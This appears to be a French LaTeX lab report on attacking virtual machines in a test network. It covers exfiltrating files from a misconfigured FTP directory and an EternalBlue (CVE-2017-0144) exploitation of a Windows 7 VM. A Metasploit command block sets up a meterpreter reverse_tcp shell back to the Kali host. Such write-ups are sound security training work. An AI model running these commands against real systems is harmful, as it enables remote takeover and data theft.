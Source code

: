 \documentclass[a4paper,12pt]{report}
\begin{document}
On essaye de lister les fichiers sur le serveur et on constate qu'il ya le repertoire "secret" et que tous les utilisateurs et groupe d'utilisateurs ont toutes les permissions sur le dit repertoire. Il contient $2$ fichiers. 
\begin{figure}[H] 
\label{web2-con-ls}
    \centering
\texttt{[image: img/webserver2\_ftp\_attack3.png]} 
\caption{affichage des répertoires}
\end{figure}

On se déplace dans le répertoire "/secret" et on essaye d’exfiltrer le contenu

\begin{figure}[H] 
\label{web2-con-exfiltration}
    \centering
\texttt{[image: img/webserver2\_ftp\_attack4.png]} 
\caption{vol des fichiers}
\end{figure}

On peut alors consulter les fichiers exfiltrés localement 

\begin{figure}[H] 
\label{web2-con-exfiltration2}
    \centering
\texttt{[image: img/webserver2\_ftp\_attack5.png]} 
\caption{les fichiers sont présents localement}
\end{figure}
\section{Exploitation de CVE-2017-0144 - EternalBlue sur windows 7}

L'attaque se fait à partir de la vm Kali (192.168.1.101) sur la vm windows 7 (192.168.45.30) dans le sous réseau de Logging (trusted zone). Elle repose sur l'exploitation d'une payload pour obtenir un shell meterpreter sur la cible grâce à Metasploit. 

\begin{lstlisting}
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.45.30
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.101
exploit
\end{lstlisting}

L'on vérifie d'abord que le port SMBv1 est disponible
\begin{figure}[H] 
\label{windows-kali-scan}
    \centering
\texttt{[image: img/eternalblue/eternal\_blue\_scan\_nmap\_approfondi.png]} 
\caption{scan nmap de la cible}
\end{figure}

On se rend compte que le port $445$ est ouvert en tcp. 
\end{document}
